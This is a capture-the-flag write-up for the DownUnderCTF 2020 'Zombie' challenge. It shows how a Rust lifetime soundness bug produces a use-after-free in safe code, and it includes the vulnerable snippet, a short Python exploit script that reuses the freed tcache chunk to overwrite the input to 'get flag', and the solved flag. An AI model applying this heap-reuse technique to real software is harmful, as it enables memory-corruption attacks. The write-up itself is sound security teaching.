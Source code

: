 # DownUnderCTF 2020 - Zombie Writeup
This challenge is about exploiting the Rust bug linked here: https://github.com/rust-lang/rust/issues/25860

Prerequisites: Knowing how the Tcache works.

### The Bug
```rust
// Issue 25860
fn cell<'a, 'b, T: ?Sized>(_: &'a &'b (), v: &'b mut T) -> &'a mut T { v }

fn virus<'a, T: ?Sized>(input: &'a mut T) -> &'static mut T {
	let f: fn(_, &'a mut T) -> &'static mut T = cell;
	f(&&(), input)
}

fn zombie(size: usize) -> &'static mut [u8] {
	let mut object = vec![b'A'; size];
	let r = virus(object.as_mut());
	r
}
```

I am not experienced with Rust, but I do have experience with C++, which I think has helped me with understanding the issue.
The `virus` function takes a reference to an object and returns a reference to the same object but as if it is static.

So what does this mean? Static objects have unlimited lifetime. The object is not actually static, so when the `zombie` function exits, `object` is destroyed and its memory is freed. But `zombie` returns a reference to it anyway, which may be used by the caller. This is a **Use After Free**, which should not normally happen in Rust outside of unsafe blocks. Here it is allowed because the static fools the compiler into thinking the object is still alive. It's not, it's a zombie.


### The Exploit
Half the job is already done for us by the challenge. Here's the main loop:

```rust
println!("What will you do?");

let line = lines.next().unwrap().unwrap();

match line.as_str().trim() {
	"get flag" => continue, // if "get flag", skip this cycle
	"infect" => infected = Some(infect(&mut lines)), // calls zombie with user supplied size
	"eat brains" => eat_brains(&mut lines, &mut infected), // modifies the infected array
	"inspect brains" => inspect_brains(&mut lines, &mut infected), // views the `nfected array
	_ => (),
}
		println!("{}", line);

if line.as_str().trim() == "get flag" { // normally this would be impossible to reach!
	let flag = read_to_string("flag.txt").unwrap();
	println!("Here's the flag: {}", &flag);
}
```

Clearly, what the author wants us to do is to exploit the UAF to change the contents of the `line` variable to `"get flag"`. Accomplishing this is easier than it sounds. Rust may not be C but it's still using libc underneath! We can use the heap exploits we already know and "love".


* Use `infect` to allocate an `infected` array of X bytes. This array is then freed to the X size tcache bin and used by our next commands.
* Use `eat brains`, BUT, pad the input with whitespace so that it is X bytes long.
  The string will be allocated using the X size tcache bin, where our array resides! `line` and `infected` now point to the same memory.
* Finish using the `eat brains` command to modify `infected` so that it starts with `get flag  `, spaces included. This modifies `line` as well.

Here's the code to do this. (Full script in exploit.py, in repo)

```python
infect(0x50)
p.sendline('eat brains'.ljust(0x50))

for i, c in enumerate('get flag  '):
    p.recvuntil('a victim')
    p.sendline(str(i))
    p.recvuntil('ch!')
    p.sendline(str(ord(c)))

p.recvuntil('a victim')
p.sendline('done')
p.interactive()
```

##### Why 2 spaces?
You need to overwrite `eat brains` fully, one space will not suffice. Result would be `get flag s`

##### Why not \x00?
It does not work. I am guessing it's because of Rust's `trim` behavior and its string implementation. See the tests below.

```rust
fn main() {
    println!("{}", "get flag\x00" == "get flag"); //false
    println!("{}", "get flag ".trim() == "get flag"); //true
    println!("{}", "get flag\x00".trim() == "get flag"); //false
}
```


## The Flag
DUCTF{m3m0ry_s4f3ty_h4ck3d!}

